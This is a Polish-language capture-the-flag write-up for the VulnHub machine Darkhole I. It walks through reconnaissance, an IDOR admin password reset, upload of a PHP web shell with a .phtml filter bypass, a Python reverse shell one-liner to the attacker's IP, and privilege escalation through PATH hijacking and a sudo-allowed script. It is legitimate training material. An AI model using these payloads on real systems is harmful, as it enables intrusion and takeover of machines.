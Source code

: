# **CTF - Darkhole I**

`Autor: adi7312`

**Poziom trudności**: Łatwy/Średni


**Link do maszyny**: [Darkhole I](https://www.vulnhub.com/entry/darkhole-1,724/).


**Spis treści:**

- [**CTF-Darkhole**](#ctf-darkhole)
    - [**Specyfikacja układu**:](#specyfikacja-układu)
    - [**Skanowanie sieci**](#skanowanie-sieci)
    - [**Skanowanie portów**](#skanowanie-portów)
    - [**Identyfikacja podatności**](#identyfikacja-podatności)
    - [**PHP Shell**](#php-shell)
    - [**Eskalacja uprawnień - zdobycie flagi użytkownika**](#eskalacja-uprawnień---zdobycie-flagi-użytkownika)
    - [**Eskalacja uprawnień - zdobycie flagi roota**](#eskalacja-uprawnień---zdobycie-flagi-roota)

### **Specyfikacja układu**:
* Maszyna atakująca: Kali Linux
* Podatna na ataki maszyna: DarkHole
* Obie maszyny znajdują się w jeden sieci

### **Skanowanie sieci**
**Cel**: Zdobycie adresu IP maszyny DarkHole

Żeby poznać adres IP naszej sieci musimy na poczatku skorzystać z polecenia 

    ifconfig


![](pictures/ifconfig.png)


Widzimy że nasza sieć ma maskę 255.255.255.0 (/24) zatem adresem naszej sieci jest 192.168.138.0/24. Wykorzystamy teraz tę informację aby znaleźć adres IP DarkHole przy pomocy narzędzia *netdiscover*. Wpisujemy zatem polecenie

    sudo netdiscover -r 192.168.138.0/24


![](pictures/net.png)


Zdobyliśmy adres IP DarkHole jest to **192.168.138.137**


### **Skanowanie portów**
**Cel:** Dowiedzieć się na jakich portach działa host **DarkHole**, dokonać wykrycia usług tych hostów oraz zidentyfikować system operacyjny.

Rozpoczynamy skanowania portów DarkHole'a w tym celu korzystamy z narzędzia *nmap* z przełącznikami:
* **-sV** - w celu identyfikacji wersji usług hosta
* **-O** - w celu identyfikacji systemu operacyjnego

  
Wpisujemy polcenie:

    sudo nmap  192.168.138.137 -sV -O


![](pictures/nmap.png)


Widzimy że 2 porty są otwarte: *ssh* na porcie 22 oraz *http* na porcie 80. 

### **Identyfikacja podatności**


**Cel**: Identyfikacja podatności


Nastepnie robimy skanowanie podatności, korzystamy z narzędzia *OpenVas*. OpenVas wykrył podatność związaną z portem 80 (*http*), tą podatnością będziemy się więc zajmować. Już sam *OpenVas* mówi nam że ta podatność jest związana z tym że hasła które podajemy są nieodpowiednio zabezpieczone i mogą być widoczne dla strony trzeciej.


![](pictures/gvm.png)


Przeanalizujemy teraz zawartość strony. Używamy narzędzia *Burp Suite*. Po wejściu na adres 192.168.138.137 widzimy że mamy możliwość zalogowania się. Po wejściu w sekcję logowania odkrywamy również możliwość rejestracji, więc rejestrujemy się i obserwujemy wyniki w *Burp Suite*. Dla przykładu jako login dałem *test* i hasło również *test*. Na poniższym screenie wydać że Burp przechwycił nasz input.


![](pictures/burp1.png)


Po zalogowaniu możemy zauważyć że istnieje możliwość zmiany hasła, przebadajmy więc i tę funkcję, zmieniamy hasło na *xyz*. W Burpie znów otrzymujemy HTTP request z jawnym inputem, tym razem widzimy dodatkowy parametr *id* = 2, możemy domyślać się że *id* = 1 posiada administrator. Ponownie wykonujemy tę operację tym razem w zakładce *Intercept* aby móc zmodyfikować HTTP request. Zmieniamy tam *id* z 2 na 1, dzięki temu zmodyfikujemy hasło administratora. 


![](pictures/burp3.png)


Możemy teraz wylogować się z konta testowego, i zalogować się na koncie administratora. Jako login wpisujemy *admin* jako hasło *xyz*. Logowanie zakończyło się powodzeniem, widzimy że administrator ma dodatkową opcję "*upload*".


![](pictures/burp4.png)


Zatem będziemy teraz zajmować się utworzeniem ładunku (*payload*) który umożliwi nam utworzenie tzw. *reverse shell*.
### **PHP Shell** 
**Cel**: RCE

Kod odpowiadający za utworzenie *reverse shell'a* wygląda następująco:

    <?php system($_GET['cmd']);?>
Zapisujemy to jako *rev.php*, spróbujmy wrzucić nasz kod. Operacja kończy się niepowodzeniem gdyż DarkHole nie przepuszcza plików .php, zmieńmy zatem w Burpie .php na .phtml.


![](pictures/burp5.png)


Sprawdzamy teraz czy nasz *shell* działa.


![](pictures/burp6.png)


Jak widać komenda *whoami* zadziałała poprawnie. Zatem zdalne wykonanie kodu (RCE - Remote Code Execution) jest teraz możliwe. Teraz będziemy chcieli uzyskać *shella* w naszym terminialu, w tym celu skorzystamy również z *reverse shell* ale tym razem użyjemy do tego Pythona. Na początku uruchamiamy terminal i wpisujemy w nim polecenie:

    sudo nc -lvp 80

Następnie wykonujemy RCE z poziomu naszej przeglądarki, jako argument *cmd* wpisujemy:

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.138.132",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

W terminalu gdzie wpisaliśmy komendę *sudo nc ...* wywołała nam się powłoka shell naszego DarkHole.


![](pictures/f1.png)



Ta powłoka ma dosyć ograniczone możliwości, próbujemy wywołać /bin/bash przy pomocy modułu *pty*.

    python3 -c ‘import pty;pty.spawn(“/bin/bash”)’


![](pictures/f2.png)


Po sprwadzeniu katalogu /home widzimy że mamy dwóch użytkowników *john* oraz *darkhole*. Sprawdzamy katalog *john* komendą `ls -la` możemy zauważyć że `toto` posiada bit SUID. Po wpisaniu polecenia `./toto` możemy zauważyć że to polecenie zachowuje się jak `id`. Wykorzystamy tę informację w celu eskalacji uprawnień. Oprócz tego widzimy już plik gdzie prawdopodobnie znajduje się flaga użytkownika, jednak nie mamy do niej dostępu bo nie mamy uprawnień `johna`.


![](pictures/f3.png)


### **Eskalacja uprawnień - zdobycie flagi użytkownika**


**Cel**: Eskalacja uprawnień oraz zdobycie pierwszej flagi 


Przechodzimy do folderu `/tmp` i tworzymy plik `id` jego zawartością będzie `/bin/bash`. Ustawiamy `id` jako plik wykonywalny, robimy to poleceniem:

    chmod +x id

Upewniamy się że zmiany zaszły dzięki poleceniu:

    which id

Ponownie uruchamiamy `./toto` wykonane zmiany powinny pozwolić eskalować uprawnienia.


![](pictures/f4.png)


Jak widzimy eskalacja udała się i uzyskaliśmy flagę, pozostało jedynie zdobyć flagę `roota`.

**`Pierwsza Flaga: DarkHole{You_Can_DO_It}`**


### **Eskalacja uprawnień - zdobycie flagi roota**

**Cel**: Eskalacja uprawnień do roota oraz zdobycie ostatniej flagi.

Przejrzyjmy ponownie katalog `/home/john`, widzimy że mamy tutaj plik *password* który zawiera hasło użytkownika *john*.


![](pictures/f5.png)


Dzięki temu możemy sprwadzić jakie polecenia `sudo` może wykonać John. Wpisujemy polecenie:

    sudo -l

Dowiadujemy się ciekawej rzeczy pewny skrypt Pythona może być uruchomiony jako *root*.


![](pictures/f6.png)


Postarajmy się zatem zdobyć tego *roota* zmieniając plik *file.py*. Wpisujemy polecenie:

    echo ‘import os;os.system(“/bin/bash”)’ > file.py
    sudo /usr/bin/python3 /home/john/file.py
    id
Jak widać otrzymaliśmy uprawnienia *roota*.


![](pictures/f8.png)


Przechodzimy zatem do folderu `/root`. Używamy `ls` otwieramy plik *root.txt*, poleceniem 

    cat root.txt

Otrzymujemy ostateczną flagę.


![](pictures/f9.png)


**`Ostatnia Flaga: DarkHole{You_Are_Legend}`**

